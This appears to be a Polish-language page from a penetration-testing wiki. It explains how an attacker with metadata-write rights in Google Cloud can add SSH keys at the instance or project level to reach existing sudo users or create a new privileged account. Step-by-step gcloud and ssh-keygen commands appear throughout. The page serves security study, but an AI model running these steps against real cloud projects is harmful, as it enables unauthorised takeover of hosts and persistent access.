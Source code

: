 # GCP - Dodaj niestandardowe metadane SSH

## GCP - Dodaj niestandardowe metadane SSH

{{#include ../../../../banners/hacktricks-training.md}}

### Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znaczących zagrożeń bezpieczeństwa, jeśli atakujący zdobędzie niezbędne uprawnienia**.

#### **Inkorporacja kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Krytycznym komponentem tego jest [demon konta](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego, jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` **istniejącego użytkownika lub potencjalnie stworzy nowego użytkownika z uprawnieniami `sudo`**, w zależności od formatu klucza. A atakujący będzie mógł przejąć kontrolę nad hostem.

#### **Dodaj klucz SSH do istniejącego uprzywilejowanego użytkownika**

1. **Zbadaj istniejące klucze SSH na instancji:**

- Wykonaj polecenie, aby opisać instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednia sekcja w wynikach będzie pod `metadata`, a konkretnie kluczem `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielona dwukropkiem.

2. **Przygotuj plik tekstowy dla metadanych klucza SSH:**
- Zapisz szczegóły nazw użytkowników i ich odpowiadających kluczy SSH w pliku tekstowym o nazwie `meta.txt`. To jest istotne dla zachowania istniejących kluczy podczas dodawania nowych.
3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**

- Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada docelowej nazwie użytkownika.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.

4. **Zaktualizuj metadane klucza SSH instancji:**

- Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Uzyskaj dostęp do instancji za pomocą nowego klucza SSH:**

- Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście docelowego użytkownika (`alice` w tym przykładzie).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Utwórz nowego uprzywilejowanego użytkownika i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, któremu nadane zostaną uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest rozszerzenie zasięgu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. To podejście umożliwia dostęp SSH do każdej instancji w projekcie, która nie zablokowała wyraźnie kluczy SSH na poziomie projektu. Oto podsumowany przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**

- Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z `meta.txt` do metadanych projektu. Ta akcja zapewnia, że klucze SSH są rozpoznawane we wszystkich VM w projekcie, chyba że VM ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH do instancji za pomocą kluczy na poziomie projektu:**
- Mając klucze SSH na poziomie projektu, możesz połączyć się SSH z dowolną instancją w projekcie. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, przyznając dostęp.
- Bezpośrednią metodą połączenia SSH z instancją jest użycie polecenia `gcloud compute ssh [INSTANCE]`. To polecenie wykorzystuje twoją bieżącą nazwę użytkownika oraz klucze SSH ustawione na poziomie projektu, aby spróbować uzyskać dostęp.

## Odniesienia

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
